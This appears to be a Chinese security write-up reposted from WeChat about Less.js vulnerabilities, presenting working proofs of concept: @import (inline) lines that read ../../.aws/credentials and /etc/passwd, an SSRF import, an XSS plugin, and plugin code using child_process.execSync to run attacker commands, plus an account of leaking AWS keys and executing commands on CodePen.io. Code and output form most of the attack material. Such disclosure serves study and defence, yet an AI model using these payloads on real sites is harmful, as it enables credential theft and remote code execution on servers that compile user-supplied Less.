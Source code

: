 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PVgOU22JX4xTigL1HdbApg)

![](https://mmbiz.qpic.cn/mmbiz_png/OhKLyqyFoP9mJwX65uY3o0wwuMo2eWPeFuDIhxJlAjMcIicKFSYLVZ6fjicY0dNle24gfmiaVpwCcP2PeZuZyaRzw/640?wx_fmt=png)点击上方蓝字关注我们

Less(less.js) 是一种流行的预处理器语言，可转换为有效的 CSS 代码。它提供的功能有助于简化网站 CSS 的编写。研究人员在 Less.js 中发现了一个漏洞，攻击者可以利用该漏洞针对允许用户输入 Less.js 代码的网站实现远程代码执行 (RCE)。

漏洞详情


--------

第一个漏洞存在于 Less.js 的增强导入功能中，它包含不解释请求内容的内联模式。这可用于请求本地或远程文本内容，并在生成的 CSS 中返回。

此外，Less 处理器在其 @import 语句中无限制地接受 URL 和本地文件引用。当在服务器端处理 Less 代码时，这可用于 SSRF 和本地文件泄露。

**本地文件泄漏 PoC**

**1.** 创建一个 Less 文件：

```
// File: bad.less
@import (inline) "../../.aws/credentials";
```

**2.** 针对创建的 less 文件启动 lessc 命令：

```
lessc bad.less
```

**3.** 输出中包含引用的文件

```
Lessjs $ .\node_modules\.bin\lessc .\bad.less
[default]
  aws_access_key_id=[MASKED]
  aws_secret_access_key=[MASKED]
```

##### **SSRF PoC**

**1.** 在本地主机上启动 Web 服务器，以提供 Hello World 消息

**2.** 创建一个 Less 文件：

```
// File: bad.less
@import (inline) "http://localhost/";
```

**3.** 针对创建的 less 文件启动 lessc 命令，并注意输出包含引用的外部内容

```
Lessjs $ .\node_modules\.bin\lessc .\bad.less
Hello World
```

利用 Less 插件功能


----------------

Less.js 库支持插件，这些插件可以使用 @plugin 语法直接包含在远程的 Less 代码中。插件使用 JavaScript 编写，当 Less 代码被解释时，任何包含的插件都会执行。这可能会导致两种结果，具体取决于 Less 处理器的上下文。如果在客户端处理 Less 代码，则会导致跨站脚本攻击。如果在服务器端处理 Less 代码，则会导致远程代码执行。所有支持 @plugin 语法的 Less 版本都容易受到攻击。

以下两个代码段为 Less.js 插件示例：

版本 2：

```
// plugin-2.7.js
functions.add('cmd', function(val) {
  return val;
});
```

版本 3 及更高版本：

```
// plugin-3.11.js
module.exports = {
  install: function(less, pluginManager, functions) {
    functions.add('cmd', function(val) {
      return val;
    });
  }
};
```

这两个版本，都可以通过以下方式包含在 Less 代码中，甚至可以从远程主机获取：

```
// example local plugin usage
@plugin "plugin-2.7.js";
```

```
// example remote plugin usage
@plugin "http://example.com/plugin-2.7.js"
```

以下代码段显示了如何进行 XSS 攻击：

```
window.alert('xss')
functions.add('cmd', function(val) {
  return val;
});
```

以下插件片段 (v2.7.3) 展示了攻击者如何实现远程代码执行 (RCE)：

```
functions.add('cmd', function(val) {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```

以及包含插件的恶意 less：

```
@plugin "plugin.js";

body {
color: cmd('whoami');
}
```

请注意使用 lessc 转译 less 代码时的输出：

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakaz0IQibwTRzD6ROzrQOyt5qgs4Lia3Cb2dvxneXg616V9ITY7HA4qapR6E268nANWET4VNTvicQpREw/640?wx_fmt=png)

以下是 3.13.1 版本的等效 PoC 插件：  

```
//Vulnerable plugin (3.13.1)
registerPlugin({
    install: function(less, pluginManager, functions) {
        functions.add('cmd', function(val) {
            return global.process.mainModule.require('child_process').execSync(val.value).toString();
        });
    }
})
```

所有版本的恶意 Less 代码都是相同的。所有支持插件的 Lessjs 版本都可以使用上面的 poc 进行攻击。

真实示例：CodePen.io


-------------------

CodePen.io 是一个用于创建 Web 代码片段流行网站，它支持标准语言和其他语言，如 Less.js。研究人员在该网站上尝试了上诉 PoC，并能够泄露他们的 AWS 密钥，以及在 AWS Lambda 中运行任意命令。

以下显示了如何使用包含漏洞的本地文件读取环境值：

```
/ import local file PoC
import (inline) "/etc/passwd";
```

```
<style type="text/css" class="INLINE_PEN_STYLESHEET_ID">root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
...snip...
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash
rngd:x:996:994:Random Number Generator Daemon:/var/lib/rngd:/sbin/nologin
slicer:x:995:992::/tmp:/sbin/nologin
sb_logger:x:994:991::/tmp:/sbin/nologin
sbx_user1051:x:993:990::/home/sbx_user1051:/sbin/nologin
sbx_user1052:x:992:989::/home/sbx_user1052:/sbin/nologin
...snip...
</style>
```

以下屏幕截图显示了如何使用 Less 插件功能来实现 RCE：

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakaz0IQibwTRzD6ROzrQOyt5qrO0VAb7swhwTRpHRxeaiaSUOzXgiaOn4o9TZC6XL04okTHgryR1zKIxg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RQoDdorCu0V5znWFiaMBVWiaibdvAvmGeUvfC5LJ60x1Kq5wiaQ5UtMKEDcwQJ3ibicBdGBKxGs1V2AuZcg3ISoDto1g/640?wx_fmt=png)

  

END

  

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakarCFnYafgYGpNRiaX2oibtiawYX92ytrKp9MpmQeOqARcreRBybBX1fDbv2guZxExicn7f0wn2dkVwqw/640?wx_fmt=png)

好文！必须在看